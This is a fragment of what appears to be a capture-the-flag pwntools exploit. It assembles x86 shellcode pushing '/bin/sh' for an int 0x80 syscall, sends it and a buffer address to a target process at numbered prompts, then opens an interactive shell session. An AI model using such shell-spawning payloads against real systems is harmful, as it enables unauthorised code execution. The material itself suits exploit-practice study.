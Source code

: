 ```python
pd = asm('''
         push 0x68732f;
         push 0x6e69622f;
         mov ebx, esp;
         int 0x80;
         ''')
info(len(pd))
p.sendafter('Step 2: ', pd)
p.sendafter('Step 3: ', p32(addr_buf1))
p.interactive()
```